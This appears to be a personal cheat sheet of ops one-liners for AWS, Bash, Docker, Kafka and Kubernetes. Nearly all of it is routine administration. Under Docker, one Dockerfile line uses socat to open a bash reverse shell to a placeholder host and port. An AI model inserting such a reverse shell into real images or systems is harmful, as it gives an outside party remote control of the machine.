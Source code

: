 ## AWS
#### Clone Route53 Zone and modify it for reupload
```
:; HOSTED_ZONE_ID
:; aws route53 list-resource-record-sets --hosted-zone-id $HOSTED_ZONE_ID | jq '. | del(.ResourceRecordSets[] | select(.Type == "NS" or .Type == "SOA")) | .ResourceRecordSets | {"Changes": [{"Action": "CREATE", "ResourceRecordSet": .[]}]}'
```
#### Remove / Update EC2 Security Groups
You can alter this command to add new groups by just appending them to the end
```
:; export INSTANCE_ID=
:; export REMOVE_SG_ID=

:; echo "aws ec2 modify-instance-attribute --instance-id $INSTANCE_ID --groups $(aws ec2 describe-instances --instance-ids $INSTANCE_ID | jq '.Reservations[].Instances[].SecurityGroups' | grep -Po "\"sg-\w+\"" | grep -v $REMOVE_SG_ID | xargs)"
```
#### Find all RDS instances that do not have a particular Security Group(s)
```
:; echo "aws rds describe-db-instances | jq '.[][] | {Instance: .DBInstanceIdentifier, Engine: .Engine, SGs: [.VpcSecurityGroups[].VpcSecurityGroupId]} | select(.Engine != "docdb") | select(.SGs | contains(["ADD-SG-HERE"]) or contains(["ADD-SG-HERE"]) | not) | .Instance'"
```

#### Update CF Stack
This can be easily modified to make changes to the parameter JSON with `jq` or in a file and then uploaded as well.
```
:; export STACK_NAME=

:; RO_PARAMS=$(aws cloudformation describe-stacks --stack-name $STACK_NAME | jq ".Stacks[].Parameters")
:; echo "aws cloudformation update-stack --stack-name $STACK_NAME --parameters $RO_PARAMS --template-body file://<template-here>"
```

## Bash
#### Open file handle counts
```
sudo lsof | awk '{ print $2, $9 }' | sort | uniq -c | sort -n | tail -20
```

## Docker
#### Reverse shell
```
RUN socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<host>:<port>
```
#### Join container network namespace for troubleshooting
```
docker run -it --net container:<hash> nicolaka/netshoot
```

## Kafka
#### Print the last 2 messages from a topic
```
:; kafkacat -C -b <broker> -t <topic> -p 0 -o -2 -e
```

## Kubernetes
#### Replace configmaps which aren't actual config maps
```
:; kubectl create configmap <MAP_NAME> --from-file=<DIR_OF_CONFIGS> -o yaml --dry-run | kubectl replace -f -
```


